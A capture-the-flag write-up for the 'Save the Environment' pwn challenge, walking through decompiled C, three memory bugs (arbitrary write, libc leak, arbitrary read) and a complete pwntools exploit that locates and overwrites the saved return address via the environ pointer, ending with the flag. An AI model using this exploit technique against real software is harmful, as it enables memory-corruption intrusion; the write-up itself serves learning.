





<div align="center">
    <h1>Save the Environment</h1>
     
</div>

---

```txt
Extraterrestrial creatures have landed on our planet and drain every resource possible! Rainforests are being destroyed, the oxygen runs low, materials are hard to find. We need to protect our environment at every cost, otherwise there will be no future for humankind..
This challenge will raise 43 euros for a good cause.
```

---

## Table of Contents

- [Table of Contents](#table-of-contents)
- [recon](#recon)
  - [code & behaviour](#code--behaviour)
    - [`main`](#main)
    - [`plant`](#plant)
    - [`recycle`](#recycle)
    - [`form`](#form)
    - [`check_fun`](#check_fun)
    - [`hidden_resources`](#hidden_resources)
  - [vulns](#vulns)
    - [arbitrary write](#arbitrary-write)
    - [libc leak](#libc-leak)
    - [arbitrary read](#arbitrary-read)
- [exploit](#exploit)
  - [script](#script)
  - [result](#result)

## recon

### code & behaviour

A bit of static & dynamic reversing gives us the following *major* functions and their respective behaviour:

#### `main`

```c
void main(void)
{
  long in_FS_OFFSET;
  int tmp;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  color(s__Save_the_environment_00401bc8,"green");
  color(banner,"green","blink");
  while( true ) {
    while( true ) {
      check_fun(rec_count);
      tmp = 0;
      menu();
      __isoc99_scanf("%d",&tmp);
      if (tmp != 1) break;
      plant();
    }
    if (tmp != 2) break;
    recycle();
  }
  color("Invalid option!\nWe are doomed!\n","red");
                    /* WARNING: Subroutine does not return */
  exit(0x539);
}
```



#### `plant`

```c
void plant(void)
{
  ulonglong *choice;
  ulonglong location;
  long in_FS_OFFSET;
  char buf [32];
  char buf2 [24];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  check_fun(rec_count);
  color(s__Trees_will_provide_more_oxygen_f_00401a58,"green");
  printf("> ");
  read(0,buf,0x10);
  choice = (ulonglong *)strtoull(buf,(char **)0x0,0);
  putchar('\n');
  color("Where do you want to plant?\n1. City\n2. Forest\n","green");
  printf("> ");
  read(0,buf2,0x10);
  puts("Thanks a lot for your contribution!");
  location = strtoull(buf2,(char **)0x0,0);
  *choice = location;
  rec_count = 0x16;
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  rec_count = 0x16;
  return;
}
```



#### `recycle`

```c
void recycle(void)
{
  long in_FS_OFFSET;
  int num;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  num = 0;
  color(s_Recycling_will_help_us_craft_new_00401b10,"cyan");
  printf("> ");
  __isoc99_scanf("%d",&num);
  check_fun(rec_count);
  if ((num == 1) || (num == 2)) {
    form();
  }
  else {
    color("Invalid option!\nWe are doomed!\n","red");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```



#### `form`

```c
/* WARNING: Could not reconcile some variable overlaps */
void form(void)
{
  char *addr;
  long in_FS_OFFSET;
  undefined4 buf;
  char buf2 [24];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  buf = 0;
  color("Is this your first time recycling? (y/n)\n> ","magenta");
  read(0,&buf,3);
  putchar('\n');
  if (((char)buf == 'n') || ((char)buf == 'N')) {
    rec_count = rec_count + 1;
  }
  if (rec_count < 5) {
    color("Thank you very much for participating in the recycling program!\n","magenta");
  }
  else {
    if (rec_count < 10) {
      color("You have already recycled at least 5 times! Please accept this gift: ","magenta");
      printf("[%p]\n",printf);
    }
    else {
      if (rec_count == 10) {
        color("You have recycled 10 times! Feel free to ask me whatever you want.\n> ","cyan");
        read(0,buf2,0x10);
        addr = (char *)strtoull(buf2,(char **)0x0,0);
        puts(addr);
      }
    }
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```



#### `check_fun`

```c
void check_fun(int rec_count)
{
  long in_FS_OFFSET;
  
  if ((-1 < rec_count) && (rec_count < 0xc)) {
    if (*(long *)(in_FS_OFFSET + 0x28) != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
  color("We have plenty of this already.\nThanks for your help!\n","green");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

#### `hidden_resources`

```c
void hidden_resources(void)
{
  FILE *__stream;
  size_t sVar1;
  long in_FS_OFFSET;
  int local_64;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined2 local_28;
  undefined local_26;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("You found a hidden vault with resources. You are very lucky!");
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_26 = 0;
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag.txt, please contact the admin");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fgets((char *)&local_58,0x32,__stream);
  local_64 = 0;
  while( true ) {
    sVar1 = strlen((char *)&local_58);
    if (sVar1 <= (ulong)(long)local_64) break;
    putchar((int)*(char *)((long)&local_58 + (long)local_64));
    local_64 = local_64 + 1;
  }
  fclose(__stream);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

### vulns

You might have already spotted them, but there are several vulnerabilities + a *profit* function in the binary, which will allow us to easily retrieve the flag. Let's go through each one of them step-by-step:

#### arbitrary write

Taking another, closer look at the plant function will reveal that the entire purpose of its code seems to be to execute an arbitrary write to any location in memory - as is visible in these lines of code here:

```c
...
  read(0,buf,0x10);
  choice = (ulonglong *)strtoull(buf,(char **)0x0,0);
...
  read(0,buf2,0x10);
  location = strtoull(buf2,(char **)0x0,0);
...
  *choice = location;
...
```

#### libc leak

`recycle`'s `form` function gifts to us the address of `printf` in `libc`'s memory space, after we have answered its question as to whether or not this was our first time recycling something with *no* for 5 times:

```c
...
  if (rec_count < 5) {
    color("Thank you very much for participating in the recycling program!\n","magenta");
  }
  else {
    if (rec_count < 10) {
      color("You have already recycled at least 5 times! Please accept this gift: ","magenta");
      printf("[%p]\n",printf);
    }    
...
```

#### arbitrary read

Furthermore, `form` is generous enough as to grant us an arbitrary read from any address in memory - as often as we want! We just need to recycle something 10 times before that:

```c
      if (rec_count == 10) {
        color("You have recycled 10 times! Feel free to ask me whatever you want.\n> ","cyan");
        read(0,buf2,0x10);
        addr = (char *)strtoull(buf2,(char **)0x0,0);
        puts(addr);
      }
```

## exploit

Ok, so, what can we do with all the vulnerabilities we've found above? That's right: we can redirect code execution to the `hidden_resources` function we have found during recon. Here's a step-by-step of how we'll do it:   1.

1. Recycle `5` times; every time, answer the question about whether or not this is our first time recycling with `no` --> this will increase the `rec_count` variable in the `.data` section to `5`, therefore gifting us the address of `printf` in `libc`.
2. Use this address to calculate `libc`'s base address and, using that, the address of `libc`'s `environ` pointer in memory. According to [its documentation](https://man7.org/linux/man-pages/man7/environ.7.html), the `environ` pointer points to an array of pointers to strings. This array of strings is located on the stack as can easily be confirmed in GDB:



3. Recycle `5` more times; once again answering the question with `no`. Since `rec_count` will now be equal to `10`, if we recycle something now, we get an arbitrary read that we can use to leak the address `environ` is pointing to.
4. Using this information, we can now abuse the arbitrary write present in `plant`. Knowing the leaked stack address and having a rough offset of the stored `rip` from that leaked address, we can now cycle through multiple values on the stack, comparing them to the value we know the stored instruction pointer should have. When we find it, we overwrite it with the address of the `hidden_resources` function.
5. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from typing import *

# ============================================ #
RIP_OFF: int    = 0x130
# ============================================ #

def prompt(r: tubes.tube.tube) -> None:
    r.recvuntil(b'> ')

def recycle(r: tubes.tube.tube, n: int) -> bytes:
    if n == 0:
        for j in range(2):
            prompt(r)
            r.sendline(b'2')
        prompt(r)
        r.sendline(b'y')
        return
    for i in range(n):
        for j in range(2):
            prompt(r)
            r.sendline(b'2')
        prompt(r)
        r.sendline(b'n')
    r.recvuntil(b'\n')
    return r.recvuntil(b'\n').strip()

def arb_read(r: tubes.tube.tube, addr: int, re: int = 0) -> int:
    recycle(r, re)
    prompt(r)
    r.sendline(str(addr))
    # have to strip weird color codes from it ... 
    return u64(r.recvuntil(b'\n').strip()[4:].ljust(8, b'\x00'))

def arb_write(r: tubes.tube.tube, loc: int, addr: int) -> None:
    prompt(r)
    r.sendline(b'1')
    prompt(r)
    r.sendline(str(loc))
    prompt(r)
    r.sendline(str(addr))
    
def main():
    p = ELF('./environment')
    l = ELF('./libc.so.6')
    r = remote('165.227.237.7', 32647)

    printf: int = int(recycle(r, 5).decode().split('0x')[1][:-1], 16)
    print(f'[*] Leaked got.printf @ 0x{printf:x} ... ')
    l.address = printf - l.sym['printf']
    print(f'[*] Got libc base = 0x{l.address:x} ... ')

    environ: int = arb_read(r, l.sym['environ'], re=5)
    print(f'[*] Leaked environ = 0x{environ:x} ... ')

    print(f'[*] RIP should be @ 0x{environ-RIP_OFF:x} (at least locally) ... ')
    print(f'[*] Starting leak & compare ... NOW!')
    for i in range(RIP_OFF+40, 0, -8):
        cu: int = arb_read(r, environ-i)
        print(f' -> Leaked value 0x{cu:x} ... ')
        if cu == p.sym['main']+169:
            print(f'[+] Found RIP offset = 0x{i:x} ... ')
            off: int = i
            break
    print(f'[*] Redirecting code execution by overwriting RIP ... NOW!')
    arb_write(r, environ-off, p.sym['hidden_resources'])
    r.interactive()

if __name__ == '__main__':
    main()
```

### result


<h4 align="center">
    CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
</h4>

---

... m4ttm00ny (April 2021)
